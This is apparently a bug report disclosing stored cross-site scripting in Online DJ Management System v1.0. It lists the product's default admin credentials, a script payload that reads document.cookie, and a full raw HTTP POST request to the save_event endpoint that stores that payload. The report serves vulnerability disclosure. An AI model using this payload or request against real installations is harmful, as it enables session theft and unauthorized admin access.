 # Online DJ Management System v1.0 has stored cross-site scripting

BUG_Author:yohane

Website source code address: https://www.sourcecodester.com/php/15150/online-dj-management-system-phpoop-free-source-code.html

Vulnerability url: /odjms/classes/Master.php?f=save_event

POST form-data parameter name="name" exists stored cross-site scripting

#### Steps to reproduce

1.Go to the admin Login

http://localhost/odjms/admin/login.php

Default Admin Access: Username: admin / Password: admin123

2.Click on "Event List" and Click on "+ Add New".

3.Put Payload into the name="name" parameter

Payload:<script>alert(document.cookie)</script>

![image](https://github.com/yoyoyoyoyohane/bug_report/blob/main/xss1.png)

4.Click on Save

Transmission packet

```
POST /odjms/classes/Master.php?f=save_event HTTP/1.1
Host: localhost
Content-Length: 456
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryP4bIlFlOxTFMP8Qt
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/odjms/admin/?page=events
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=51dsd8ijjls4hhri4d9jare8sk
Connection: close

------WebKitFormBoundaryP4bIlFlOxTFMP8Qt
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryP4bIlFlOxTFMP8Qt
Content-Disposition: form-data; name="name"

<script>alert(document.cookie)</script>
------WebKitFormBoundaryP4bIlFlOxTFMP8Qt
Content-Disposition: form-data; name="description"

b
------WebKitFormBoundaryP4bIlFlOxTFMP8Qt
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryP4bIlFlOxTFMP8Qt--
```

5.Payload will trigger when a user visits on http://localhost/odjms/admin/?page=events

![image](https://github.com/yoyoyoyoyohane/bug_report/blob/main/xss2.png)
